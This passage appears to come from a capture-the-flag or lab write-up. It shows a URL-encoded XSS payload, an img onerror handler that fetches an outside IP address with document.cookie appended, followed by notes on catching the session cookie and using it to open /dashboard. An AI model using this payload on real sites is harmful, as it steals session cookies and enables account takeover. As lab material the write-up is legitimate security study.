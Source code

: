 ```
%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%66%65%74%63%68%28%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%32%30%37%2f%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3e
```

![](./IMG/11.png)

> Check simple http server 
> I will receive a session cookie 

![](./IMG/12.png)

> Using this value, I can access to /dashboard

